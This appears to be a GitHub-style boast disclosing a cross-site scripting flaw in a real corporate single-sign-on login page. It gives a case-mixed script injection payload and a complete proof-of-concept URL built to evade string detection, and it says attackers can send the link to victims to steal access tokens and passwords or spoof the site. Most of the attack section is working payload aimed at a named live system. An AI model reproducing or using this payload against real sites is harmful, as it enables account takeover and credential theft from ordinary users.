 EXPLOIT FOUND BY NTXING CODED BY NTXING EXPLOITED BY NTXING


## Status: Vulnerable😡

### website: https://ssologin.nbcuni.com/login/login.jsp
#### Vulnibity: URL-Based Stored Cross-Site Scripting

**What can this exploit do?0**

- lets attackers steal access tokens
- inject JS in to page
- steal passwords when entered
- spoof website

**Where?**
In support URL. Attacker will send victim the payload url

**xss injection**
```html
ScripT><ScRIpT>PAYLOAD</scRIpT>&TYPE=33554433 -d alert(0)=
```
this will be url encoded

**Proof of work**
```html
https://ssologin.nbcuni.com/login/login.jsp?GUID=&METHOD=GET&REALMOID=06-0009e2d8-db31-1580-b135-b18a0303f045&SMAGENTNAME=-SM-ytANZow+tuVB5Fe2fulv1ewOCwpmtxxLxQxNRRMbJdz7F1bbJrGLHTuQn5LLn0MiDgsP6M53Q2xh7X7GV8HfIIxIIy8nHAOp&SMAUTHREASON=0&TARGET=-SM-https://myschedule.nbcuni.com/SchedulerPortal.aspx%3C/ScripT%3E%3CScRIpT%3Evar%20x=String(/HELLO%20THIS%20IS%20AN%20XSS%20VUN/);x=x.substring(1,x.length-1),alert(x);%20%3C/scRIpT%3E&TYPE=33554433%20-d%20alert(0)=

```
the following shows how to avoid sting detection in url and excute alert script


